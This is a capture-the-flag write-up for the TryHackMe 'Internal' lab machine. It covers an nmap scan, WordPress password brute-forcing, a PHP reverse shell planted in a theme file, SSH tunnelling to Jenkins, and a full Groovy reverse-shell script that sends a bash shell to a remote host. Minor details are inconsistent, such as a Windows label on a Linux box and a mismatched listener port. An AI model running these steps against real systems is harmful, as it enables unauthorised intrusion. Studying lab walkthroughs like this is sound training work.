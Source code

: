 ```yaml
---
title: THM - Internal
author: z3nn
date: 2020-09-25 19:53:00 +0200
categories: [Hacking, TryHackMe]
description: TryHackMe Internal Windows Box
tags: [tryhackme, internal, windows, offensive pentest, security, security missconfiguration, pentest]
---
```


# TryHackMe - Internal
A write-up to the Relevant machine provided by [TryHackMe](https://tryhackme.com/) and created by [TheMayor](https://twitter.com/joehelle). This machine is part of the `Offensive Pentesting` learning path from THM in the `Advanced Exploitation` Section being rated as a `Hard` difficulty.... Let's get to it.

The description of this machine is quite nice, having a roleplay in it to put you into the mindset of a pentester that needs to gather information about it's target (`recon`).

> You might notice the machine IP changing a few times in this write-up... that's because I wrote this the day after I completed the challenge and I had to stop / start the machine as needed to get back some information.

# Recon
Starting off with a recon on the machine to see what ports are open, what services are active, etc.

```
$ nmap -sS -sV -oA internal-vuln --script=default,vuln -p- -T5 10.10.231.241
[sudo] password for z3nn:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 19:55 EEST
Nmap scan report for 10.10.231.241
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey:
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
| vulners:
|   cpe:/a:openbsd:openssh:7.6p1:
|       CVE-2008-3844   9.3     https://vulners.com/cve/CVE-2008-3844
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2019-16905  4.4     https://vulners.com/cve/CVE-2019-16905
|       CVE-2007-2768   4.3     https://vulners.com/cve/CVE-2007-2768
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2014-9278   4.0     https://vulners.com/cve/CVE-2014-9278
|_      CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Apache2 Ubuntu Default Page: It works
| vulners:
|   cpe:/a:apache:http_server:2.4.29:
|       CVE-2010-0425   10.0    https://vulners.com/cve/CVE-2010-0425
|       CVE-1999-1412   10.0    https://vulners.com/cve/CVE-1999-1412
|       CVE-1999-1237   10.0    https://vulners.com/cve/CVE-1999-1237
|       CVE-1999-0236   10.0    https://vulners.com/cve/CVE-1999-0236
|       CVE-2009-1955   7.8     https://vulners.com/cve/CVE-2009-1955
|       CVE-2007-6423   7.8     https://vulners.com/cve/CVE-2007-6423
|       CVE-2007-0086   7.8     https://vulners.com/cve/CVE-2007-0086
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       CVE-2009-3095   7.5     https://vulners.com/cve/CVE-2009-3095
|       CVE-2007-4723   7.5     https://vulners.com/cve/CVE-2007-4723
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       CVE-2009-1891   7.1     https://vulners.com/cve/CVE-2009-1891
|       CVE-2009-1890   7.1     https://vulners.com/cve/CVE-2009-1890
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2008-2579   6.8     https://vulners.com/cve/CVE-2008-2579
|       CVE-2007-5156   6.8     https://vulners.com/cve/CVE-2007-5156
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2019-10097  6.0     https://vulners.com/cve/CVE-2019-10097
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-10081  5.0     https://vulners.com/cve/CVE-2019-10081
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2014-0231   5.0     https://vulners.com/cve/CVE-2014-0231
|       CVE-2011-1752   5.0     https://vulners.com/cve/CVE-2011-1752
|       CVE-2010-1452   5.0     https://vulners.com/cve/CVE-2010-1452
|       CVE-2010-0408   5.0     https://vulners.com/cve/CVE-2010-0408
|       CVE-2009-2699   5.0     https://vulners.com/cve/CVE-2009-2699
|       CVE-2007-0450   5.0     https://vulners.com/cve/CVE-2007-0450
|       CVE-2005-1268   5.0     https://vulners.com/cve/CVE-2005-1268
|       CVE-2003-0020   5.0     https://vulners.com/cve/CVE-2003-0020
|       CVE-2001-1556   5.0     https://vulners.com/cve/CVE-2001-1556
|       CVE-1999-0678   5.0     https://vulners.com/cve/CVE-1999-0678
|       CVE-1999-0289   5.0     https://vulners.com/cve/CVE-1999-0289
|       CVE-1999-0070   5.0     https://vulners.com/cve/CVE-1999-0070
|       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
|       CVE-2009-1195   4.9     https://vulners.com/cve/CVE-2009-1195
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       CVE-2011-1783   4.3     https://vulners.com/cve/CVE-2011-1783
|       CVE-2010-0434   4.3     https://vulners.com/cve/CVE-2010-0434
|       CVE-2008-2939   4.3     https://vulners.com/cve/CVE-2008-2939
|       CVE-2008-2168   4.3     https://vulners.com/cve/CVE-2008-2168
|       CVE-2008-0455   4.3     https://vulners.com/cve/CVE-2008-0455
|       CVE-2007-6420   4.3     https://vulners.com/cve/CVE-2007-6420
|       CVE-2007-6388   4.3     https://vulners.com/cve/CVE-2007-6388
|       CVE-2007-5000   4.3     https://vulners.com/cve/CVE-2007-5000
|       CVE-2007-4465   4.3     https://vulners.com/cve/CVE-2007-4465
|       CVE-2007-1349   4.3     https://vulners.com/cve/CVE-2007-1349
|       CVE-2007-6422   4.0     https://vulners.com/cve/CVE-2007-6422
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2007-6421   3.5     https://vulners.com/cve/CVE-2007-6421
|_      CVE-2001-0131   1.2     https://vulners.com/cve/CVE-2001-0131
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.98 seconds
```

Not many open ports unlike other machines, just a 22 and 80... but what's running on that port 80 is interesting. First impressions is that it's just a basic apache2 instalation and that's all, nothing much to it... but our scan reveals a bit more information

## The blog
There is a `/blog/` which appears to be some sort of wordpress blog... one problem, it looks fucked... just look at it...

![blog1](/assets/img/posts/thm_internal_blog1.jpg)

Checking the dev console... and some of the page links I noticed something, the missing refferences where pointing to `internal.htm`, a host which I didn't setup in my `/etc/hosts` file because I was lazy... let's do that

![blog2](/assets/img/posts/thm_internal_blog2.jpg)

Now it loos better :) ... back to hacking

Looking through what the webapp has to offer a tried a few things:
- exploiting xmlrpc.php (using metasploit)
- exploting phpmyadmin (using metasploit)


None of these were fruitfull, I resorted to trying to brutforce passwords in PhpMyAdmin and the Wordpress app. For wordpress I noticed on the first post that the Author was `Admin` so I used that as my username and for PhpMyAdmin I used the default `root` user.

I had success with WPscan to bruteforce the password for `admin`. 

Looking throught the Wordpress dashboard for admin I found a Private post that had credentials for good ol' Will... Will's credentials were useless.

### Gaining a foothold
One vulnerability here is the ability to edit the PHP files of Wordpress, so that's what we'll do.... Addidng the code for a PHP Reverse shell in the 404.php file does the trick.

We now have access ass `www-data`. Looking through `/home` we see there is no `will` user so that set of credentials was a total waste.... enumeraitng

> a few years of enumeration later

There's a `.txt` file hidden in /opt that has credentials for our user.

# PrivEsc

In the home of our user we can see a `jenkins.txt` file informs us of an internal Jenkins service running on a specific IP and port. 

We are going to forward it to our attacking machine:
```shell
ssh -L 9595:172.17.0.2:8080 aubreanna@internal.thm
```

After this we can now access the Jenkins app in our browser with: `http://127.0.0.1:9595`. There's no easy way from here, just brute force for the jenkins password.

After credentials are obtained next thing we can do is abuse the Groovy Script console to get Shell.
Go To `Manage Jenkins` > `Script Console` and add the following script.

```groovy
String host="1.1.1.1";
int port=8586;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Open a netcat listener on attacking machine on the same port as the one in our Groovy script:
```
nc -lnvp 85856
```

Run the groovy script. We now have a reverse shell as Jenkins. This time I went straight to check the `/opt` directory to see if this machine has something else there... surprise, there's root credentials

> ssh into the machine using the root credentials and get flag.

# Conclusion
Overall it was a nice machine with it's ups and downs and manual enumeration, or snooping around, was what got you to find the interesting info.